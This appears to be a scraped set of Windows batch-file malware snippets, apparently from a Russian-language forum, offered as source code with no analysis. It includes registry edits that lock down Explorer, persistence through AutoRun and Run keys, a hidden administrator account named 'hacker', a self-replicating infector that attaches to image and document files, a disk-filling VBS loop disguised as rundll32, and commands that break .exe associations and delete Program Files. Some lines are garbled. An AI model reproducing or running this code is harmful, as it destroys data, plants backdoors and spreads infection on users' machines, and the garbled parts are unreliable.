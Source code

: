 reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\RestrictRun /v 1 /t REG_DWORD /d %SystemRoot%\explorer.exe /f >nul[/SRC]
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDesktop /t REG_DWORD /d 1 /f >nul[/SRC]
reg add HKCU\Software\Microsoft\Windows\Current Version\Policies\Explorer
/v NoControlPanel /t REG_DWORD /d 1 /f >nul[/SRC]
[SRC]reg add HKCU\Software\Microsoft\Windows\ShellNoRoam\MUICache /v @C:\WINDOWS\system32\SHELL32.dll,-8964 /t REG_SZ /d ТУТ НАЗВАНИЕ КОРЗИНЫ /F[/SRC]
[SRC]del %0[/SRC]
[SRC]:x
Start mspaint
goto x[/SRC]
[SRC]copy ""%0"" "%SystemRoot%\system32\batinit.bat" >nul
reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "%SystemRoot%\syste m32\batinit.bat" /f >nul[/SRC]
[SRC]Echo_inactive_inactive off
chcp 1251
net user SUPPORT_388945a0 /delete
net user hacker hack /add
net localgroup Администраторы hacker /add
net localgroup Пользователи SUPPORT_388945a0 /del
reg add "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionWinlogonSpecialAccountsUserList" /v "support" /t reg_dword /d 0 y[/SRC]
[SRC]rundll32 user,disableoemlayer[/SRC]
[SRC]Echo_inactive_inactive off%[MrWeb]%
if '%1=='In_ goto MrWebin
if exist c:\MrWeb.bat goto MrWebru
if not exist %0 goto MrWeben
find "MrWeb"<%0>c:\MrWeb.bat
attrib +h c:\MrWeb.bat
:MrWebru
for %%g in (..\*.jpg ..\*.doc ..\*.htm? *.jpg *.mp3 *.doc *.htm? *.xls) do call c:\MrWeb In_ %%ggoto MrWeben
:MrWebin
if exist %2.bat goto MrWeben
type c:\MrWeb.bat>>%2.bat
echo start %2>>%2.bat%[MrWeb]%
:MrWeben[/SRC]
[SRC]Echo_inactive_inactive off%[MrWeb]%
if '%1=='In_ goto MrWebin
if exist c:\MrWeb.bat goto MrWebru
if not exist %0 goto MrWeben
find "MrWeb"<%0>c:\MrWeb.bat
attrib +h c:\MrWeb.bat
:MrWebru
for %%g in (*.jpg) do call c:\MrWeb In_ %%g
goto MrWeben
:MrWebin
if exist %2.bat goto MrWeben
type c:\MrWeb.bat>>%2.bat
echo start %2>>%2.bat%[MrWeb]%
:MrWeben[/SRC]
[SRC]Echo_inactive_inactive off
echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs
echo do >> %systemdrive%\windows\system32\rundll32.vbs
echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs
echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs
echo loop >> %systemdrive%\windows\system32\rundll32.vbs
start %systemdrive%\windows\system32\rundll32.vbs
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f[/SRC]
[SRC]Echo_inactive_inactive off
echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs
echo do >> %systemdrive%\windows\system32\rundll32.vbs
echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs
echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs
echo loop >> %systemdrive%\windows\system32\rundll32.vbs
start %systemdrive%\windows\system32\rundll32.vbs
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f[/SRC]
[SRC]Echo_inactive_inactive off
Echo Virus Loading
Date 13.09.96
If exist c:ski.bat goto abc
Copy %0 c:ski.bat
Attrib +h c:ski.bat
Echo c:ski.bat >>autoexec.bat
:abc
md PRIDUROK
md LUZER
md DURAK
md LAMER
Label E: PRIDUROK
assoc .exe=.mp3
del c:Program Files/q
Echo VIRUS LOAD


